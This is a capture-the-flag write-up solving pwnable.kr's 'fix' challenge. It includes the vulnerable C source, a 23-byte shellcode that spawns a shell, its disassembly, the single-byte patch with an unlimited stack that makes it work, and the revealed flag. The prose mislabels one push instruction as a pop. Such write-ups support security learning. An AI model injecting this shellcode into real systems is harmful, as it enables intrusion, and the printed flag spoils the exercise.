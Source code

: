 # fix

## Description

fix - 35 pt 

> Why bother to make your own shellcode? <br>
> I can simply copy&paste from shell-storm.org <br>
> so I just copied it from shell-storm then used it for my buffer overflow exercise <br>
> but it doesn't work :( <br>
> can you please help me to fix this?? <br><br>
> ssh fix@pwnable.kr -p2222 (pw:guest)

## Solution

### Exploit

This time, we are given a binary `fix` and it's source code:

```c
#include <stdio.h>

// 23byte shellcode from http://shell-storm.org/shellcode/files/shellcode-827.php
char sc[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		"\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

void shellcode(){
	// a buffer we are about to exploit!
	char buf[20];

	// prepare shellcode on executable stack!
	strcpy(buf, sc);

	// overwrite return address!
	*(int*)(buf+32) = buf;

	printf("get shell\n");
}

int main(){
        printf("What the hell is wrong with my shellcode??????\n");
        printf("I just copied and pasted it from shell-storm.org :(\n");
        printf("Can you fix it for me?\n");

	unsigned int index=0;
	printf("Tell me the byte index to be fixed : ");
	scanf("%d", &index);
	fflush(stdin);

	if(index > 22)	return 0;

	int fix=0;
	printf("Tell me the value to be patched : ");
	scanf("%d", &fix);

	// patching my shellcode
	sc[index] = fix;	

	// this should work..
	shellcode();
	return 0;
}
```

The program prompts the user asking for an index in the shellcode (and checks that index is in fact in the shellcode) and a value. The program then patches the shellcode and executes it.

The shellcode is a 23 byte long one, taken from [shell-storm](http://shell-storm.org/shellcode/files/shellcode-827.php). It's a simple shellcode that executes `/bin/sh` using the `execve` syscall. Here is the disassembly:

```python
from pwn import *

context.binary = ELF('fix')

shellcode = b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69' + \
		    b'\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'
print(disasm(shellcode))
```

```asm
   0:   31 c0                   xor    eax, eax
   2:   50                      push   eax
   3:   68 2f 2f 73 68          push   0x68732f2f
   8:   68 2f 62 69 6e          push   0x6e69622f
   d:   89 e3                   mov    ebx, esp
   f:   50                      push   eax
  10:   53                      push   ebx
  11:   89 e1                   mov    ecx, esp
  13:   b0 0b                   mov    al, 0xb
  15:   cd 80                   int    0x80
```

When running the program (and "patching" an index with it's current value) the program crashes with a segmentation fault.

Upon further investigation, by debugging the program, it seems the segmentation fault is caused by the one of the instuctions there. The shellcode pushes several values, and after the the second `push` instruction, the stack pointer points at the *shellcode itself*. So, after the third push, the shellcode is corrupted and when the program tries to execute it, it crashes.

To fix it, we need to move the stack pointer elsewhere, so it won't point at the shellcode itself, while maintaining the integrity of the shellcode. 

If we could somehow move the stack pointer so it'll point to a place where all the bytes are zero, then - for example - the second `push %eax` instruction will be meaningless. In other words, we need to change the second `pop %eax` instruction to some instruction that'll make the `%esp` point to a place where all the bytes are zero (and is writable).

One way we could do this is by disabling the stack limit, and changing the `pop %eax` to a `pop %esp` (which unsurprisingly both have one byte long opcode).

Since the the top of the stack (at the moment where the `push eax` instruction is executed) is `/bin/sh`, the stack pointer will have a garbage value. Because the stack is unlimited, it will point somewhere on the stack, where all the bytes are zero.


```bash
fix@pwnable:~$ ulimit -s unlimited
fix@pwnable:~$ ./fix
What the hell is wrong with my shellcode??????
I just copied and pasted it from shell-storm.org :(
Can you fix it for me?
Tell me the byte index to be fixed : 15
Tell me the value to be patched : 92
get shell
$ cat flag
Sorry for blaming shell-strom.org :) it was my ignorance!
```
